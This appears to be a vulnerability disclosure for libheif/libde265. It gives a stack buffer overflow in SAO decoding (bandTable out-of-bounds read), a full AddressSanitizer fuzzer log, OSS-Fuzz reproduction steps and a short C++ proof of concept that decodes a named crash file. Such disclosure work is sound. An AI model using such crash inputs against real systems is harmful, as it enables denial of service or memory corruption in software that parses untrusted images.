

# libheif

## Description
A stack buffer overflow vulnerability exists in the SAO (Sample Adaptive Offset) processing of libde265 (sao.cc at line 240). Specifically in `apply_sao_internal<unsigned short>` during thread pool execution. This occurs due to improper bounds checking when accessing the `bandTable` array during HEIF/HEVC decoding.

## libfuzzer report
```
==9==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7b9bcc6c8f10 at pc 0x0000006ef4b5 bp 0x7b9bd2dffa70 sp 0x7b9bd2dffa68
READ of size 4 at 0x7b9bcc6c8f10 thread T569482
SCARINESS: 42 (4-byte-read-stack-buffer-overflow-far-from-bounds)
    #0 0x6ef4b4 in void apply_sao_internal<unsigned short>(de265_image*, int, int, slice_segment_header const*, int, int, int, unsigned short const*, int, unsigned short*, int) /src/libde265/libde265/sao.cc:240:27
    #1 0x6ebc60 in void apply_sao<unsigned char>(de265_image*, int, int, slice_segment_header const*, int, int, int, unsigned char const*, int, unsigned char*, int) /src/libde265/libde265/sao.cc:264:5
    #2 0x6ec854 in thread_task_sao::work() /src/libde265/libde265/sao.cc:435:9
    #3 0x71b863 in worker_thread(void*) /src/libde265/libde265/threads.cc:231:11
    #4 0x7b9bd8b3a608 in start_thread (/lib/x86_64-linux-gnu/libpthread.so.0+0x8608)
    #5 0x7b9bd8a44352 in __clone (/lib/x86_64-linux-gnu/libc.so.6+0x11f352)

DEDUP_TOKEN: void apply_sao_internal<unsigned short>(de265_image*, int, int, slice_segment_header const*, int, int, int, unsigned short const*, int, unsigned short*, int)--void apply_sao<unsigned char>(de265_image*, int, int, slice_segment_header const*, int, int, int, unsigned char const*, int, unsigned char*, int)--thread_task_sao::work()
Address 0x7b9bcc6c8f10 is located in stack of thread T569482 at offset 272 in frame
    #0 0x6ed95f in void apply_sao_internal<unsigned short>(de265_image*, int, int, slice_segment_header const*, int, int, int, unsigned short const*, int, unsigned short*, int) /src/libde265/libde265/sao.cc:33

DEDUP_TOKEN: void apply_sao_internal<unsigned short>(de265_image*, int, int, slice_segment_header const*, int, int, int, unsigned short const*, int, unsigned short*, int)
  This frame has 4 object(s):
    [32, 40) 'hPos' (line 79)
    [64, 72) 'vPos' (line 79)
    [96, 101) 'saoOffsetVal' (line 95)
    [128, 256) 'bandTable' (line 186) <== Memory access at offset 272 overflows this variable
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
Thread T569482 created by T0 here:
    #0 0x444d49 in __interceptor_pthread_create /src/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:209
    #1 0x71b61e in start_thread_pool(thread_pool*, int) /src/libde265/libde265/threads.cc:269:15
    #2 0x6931a3 in decoder_context::start_thread_pool(int) /src/libde265/libde265/decctx.cc:346:3
    #3 0x68f69b in de265_start_worker_threads /src/libde265/libde265/de265.cc:258:28
    #4 0x6039b6 in libde265_new_decoder(void**) /src/libheif/libheif/heif_decoder_libde265.cc:152:3
    #5 0x5cccd4 in heif::HeifContext::decode_image(unsigned int, std::__1::shared_ptr<heif::HeifPixelImage>&, heif_decoding_options const*) const /src/libheif/libheif/heif_context.cc:905:29
    #6 0x5cc43d in heif::HeifContext::Image::decode_image(std::__1::shared_ptr<heif::HeifPixelImage>&, heif_colorspace, heif_chroma, heif_decoding_options const*) const /src/libheif/libheif/heif_context.cc:855:31
    #7 0x5b0e5d in heif_decode_image /src/libheif/libheif/heif.cc:576:33
    #8 0x60c0c4 in TestDecodeImage(heif_context*, heif_image_handle const*) /src/libheif/libheif/file_fuzzer.cc:39:9
    #9 0x60bbd8 in LLVMFuzzerTestOneInput /src/libheif/libheif/file_fuzzer.cc:70:5
    #10 0x645235 in fuzzer::Fuzzer::ExecuteCallback(unsigned char const*, unsigned long) /src/libfuzzer/FuzzerLoop.cpp:529:15
    #11 0x643969 in fuzzer::Fuzzer::RunOne(unsigned char const*, unsigned long, bool, fuzzer::InputInfo*, bool*) /src/libfuzzer/FuzzerLoop.cpp:453:3
    #12 0x646d73 in fuzzer::Fuzzer::MutateAndTestOne() /src/libfuzzer/FuzzerLoop.cpp:669:19
    #13 0x64a138 in fuzzer::Fuzzer::Loop(std::__1::vector<std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>, fuzzer::fuzzer_allocator<std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>>> const&, std::__1::vector<std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>, fuzzer::fuzzer_allocator<std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>>> const&) /src/libfuzzer/FuzzerLoop.cpp:814:5
    #14 0x61975f in fuzzer::FuzzerDriver(int*, char***, int (*)(unsigned char const*, unsigned long)) /src/libfuzzer/FuzzerDriver.cpp:776:6
    #15 0x60c32c in main /src/libfuzzer/FuzzerMain.cpp:19:10
    #16 0x7b9bd8949082 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x24082)

DEDUP_TOKEN: __interceptor_pthread_create--start_thread_pool(thread_pool*, int)--decoder_context::start_thread_pool(int)
SUMMARY: AddressSanitizer: stack-buffer-overflow /src/libde265/libde265/sao.cc:240:27 in void apply_sao_internal<unsigned short>(de265_image*, int, int, slice_segment_header const*, int, int, int, unsigned short const*, int, unsigned short*, int)
Shadow bytes around the buggy address:
  0x0f73f98d1190: f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5
  0x0f73f98d11a0: f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5
  0x0f73f98d11b0: f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5 f5
  0x0f73f98d11c0: f1 f1 f1 f1 f8 f2 f2 f2 f8 f2 f2 f2 f8 f2 f2 f2
  0x0f73f98d11d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0f73f98d11e0: f3 f3[f3]f3 00 00 00 00 00 00 00 00 00 00 00 00
  0x0f73f98d11f0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0f73f98d1200: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0f73f98d1210: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0f73f98d1220: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0f73f98d1230: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==9==ABORTING
MS: 1 InsertByte-; base unit: f284aff4c347e8808ce8ff696f07f9dba54067ab
artifact_prefix='./'; Test unit written to ./crash-56ce7d2d34517f745a32bfb369b67eb80eef48b4
```
## Reproduce
1. **Trigger input**: Use crash file `crash-56ce7d2d34517f745a32bfb369b67eb80eef48b4` containing malformed SAO parameters.
2. **Decode with vulnerable libde265**: Process via `heif_decode_image` using libheif's decoding interface.
3. **Observe crash**: Stack buffer overflow in `apply_sao_internal` during multi-threaded decoding.

Specially, run `python3 infra/helper.py reproduce libheif file_fuzzer ./crash-56ce7d2d34517f745a32bfb369b67eb80eef48b4` via oss-fuzz script

## poc
For a PoC implementation (requires libheif development environment):

```cpp
// poc.cpp
#include <libheif/heif.h>
#include <stdio.h>

int main() {
    heif_context* ctx = heif_context_alloc();
    heif_context_read_from_file(ctx, "crash-56ce7d2d34517f745a32bfb369b67eb80eef48b4", nullptr);
    
    heif_image_handle* handle;
    heif_context_get_primary_image_handle(ctx, &handle);
    
    heif_image* img;
    heif_decode_image(handle, &img, heif_colorspace_YCbCr, heif_chroma_420, nullptr);
    
    heif_image_release(img);
    heif_image_handle_release(handle);
    heif_context_free(ctx);
    return 0;
}
```


compile it via `g++ poc.cpp -I/src/libheif/libheif -L/src/libheif/build/libheif/.libs -lheif -Wl,-rpath=/src/libheif/build/libheif/.libs -o poc`

